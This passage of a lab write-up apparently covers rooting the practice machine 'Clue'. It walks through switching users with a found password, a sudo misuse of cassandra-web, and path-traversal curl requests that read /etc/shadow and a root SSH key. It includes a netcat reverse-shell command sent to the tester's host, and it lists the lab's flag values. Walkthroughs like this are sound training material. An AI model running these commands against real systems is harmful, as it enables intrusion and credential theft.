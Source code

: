 # Lateral Movement to user
- Ran `su cassie` with found password `SecondBiteTheApple330` to switch to user `cassie` 
![[Cybersecurity-Resources/images/Pasted image 20241017214945.png]]
---
# Privilege Escalation
## Local Enumeration
- Navigated to `/home/cassie`, identified `id_rsa` file and ran `cat id_rsa` to display SSH private key
![[Cybersecurity-Resources/images/Pasted image 20241017215717.png]]
- Ran `ssh2john` to crack `cassie` RSA key - no password found
![[Cybersecurity-Resources/images/Pasted image 20241017221006.png]]
- Ran `sudo -l` to identify `sudo` privileges
![[Cybersecurity-Resources/images/Pasted image 20241017220245.png]]
## Privilege Escalation vector
- Ran `sudo /usr/local/bin/cassandra-web -B 0.0.0.0:4444 -u cassie -p SecondBiteTheApple330` to launch Cassandra server on localhost as `root`
![[Cybersecurity-Resources/images/Pasted image 20241017222827.png]]
- Re-ran exploit `python3 freeswitch-exploit.py 192.168.114.240 'nc -c /bin/bash 192.168.45.154 80'` to establish 2nd reverse shell, then ran `curl --path-as-is localhost:4444/../../../../../../../../../etc/shadow` to display password hashes
![[Cybersecurity-Resources/images/Pasted image 20241017222955.png]]
- Saved password hashes for `root` and `anthony` to `cluehash`
![[Cybersecurity-Resources/images/Pasted image 20241017223413.png]]
- Ran `curl --path-as-is localhost:4444/../../../../../../../../../home/anthony/.bash_history` to view `anthony` bash history
![[Cybersecurity-Resources/images/Pasted image 20241017224212.png]]
- Identified `root` RSA key has been copied to `/home/anthony/.ssh/id_rsa` - ran `curl --path-as-is localhost:4444/../../../../../../../../../home/anthony/.ssh/id_rsa` to display `root` RSA private key
![[Cybersecurity-Resources/images/Pasted image 20241017224304.png]]
- Copied `root` RSA private key to local file `root_rsa` and logged into `root` user with `ssh -i root_rsa root@192.168.114.240`
![[Cybersecurity-Resources/images/Pasted image 20241017224610.png]]
- Ran `cat /root/proof.txt` and printed `The proof is in another file`
- Listed directory contents and identified `proof_youtriedharder.txt` - ran `cat proof_youtriedharder.txt` to print `85cf69abf0ad2cced9e676fdeeef3702`
---
# Trophy & Loot
`local.txt` = `6e79f3911c9a13321d9d94e2e621b593`
`proof.txt` = `85cf69abf0ad2cced9e676fdeeef3702`
